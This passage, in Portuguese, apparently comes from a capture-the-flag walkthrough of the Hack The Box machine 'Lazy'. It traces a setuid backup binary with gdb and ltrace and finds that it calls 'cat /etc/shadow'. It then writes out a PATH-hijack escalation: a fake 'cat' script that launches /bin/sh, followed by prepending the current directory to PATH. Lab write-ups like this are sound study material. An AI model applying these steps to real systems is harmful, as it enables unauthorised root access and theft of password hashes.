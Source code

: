 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_gdb3.png)

Vamos examinar o que é que está sendo carregado no ESP

> x/s 0x80484d0

Verificamos que é o que da o /etc/shadow

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_gdb4.png)

Show!! Verificamos novamente, agora de um modo mais maneiro e útil

Damos mais um passo na aplicação (`si`) e vemos o "cat /etc/shadow" ser carregado no ESP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_gdb5.png)

## 3º Modo - ltrace

Também conseguimos verificar que ele utiliza do cat através do comando ltrace

> ltrace ./backup

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_ltrace.png)

## Realizando a escalação

Agora como vamos explorar esse `cat`?

A primeira coisa a se fazer é verificar o PATH do usuário, pois é onde o sistema vai procurar pontos pra executar os binários, se colocarmos um "cat" diferente, com um bash por exemplo, no diretório atual e setar esse diretório como sendo PATH, o backup vai executar esse cat ai invés do /bin....

Vamos lá, fazendo fica melhor de entender

Primeiro verificamos o $PATH

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_cat1.png)

Agora criamos nosso "cat" e damos permissão de execução pra ele

```
echo '#!/bin/sh' >> cat
echo '/bin/sh' >> cat
chmod +x cat
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_cat2.png)

Alteramos o $PATH do usuário, para o primeiro local a ser procurado para execução de binários seja a pasta atual

```
export PATH=`pwd`:$PATH
echo $PATH
```
